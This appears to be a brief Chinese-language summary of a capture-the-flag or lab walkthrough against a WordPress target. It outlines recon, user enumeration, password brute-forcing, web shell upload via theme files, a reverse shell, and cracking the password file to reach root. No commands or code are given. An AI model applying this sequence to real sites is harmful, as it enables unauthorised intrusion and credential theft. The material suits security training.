

1.  **信息收集**：使用Nmap和Nikto探测目标服务和敏感目录。
2.  **漏洞利用**：针对发现的WordPress站点，使用Wpscan枚举用户，并用Metasploit进行密码暴力破解。
3.  **获取立足点**：利用后台权限上传WebShell，通过Metasploit获得反向Shell。
4.  **权限提升**：下载系统密码文件，使用John the Ripper破解本地用户密码，进而提权至root。
5.  **达成目标**：在root目录下找到并读取flag值。



核心要点在于：对于WordPress的渗透，常通过主题文件上传WebShell；权限提升时，可以尝试破解本地用户密码来获得更高权限的跳板。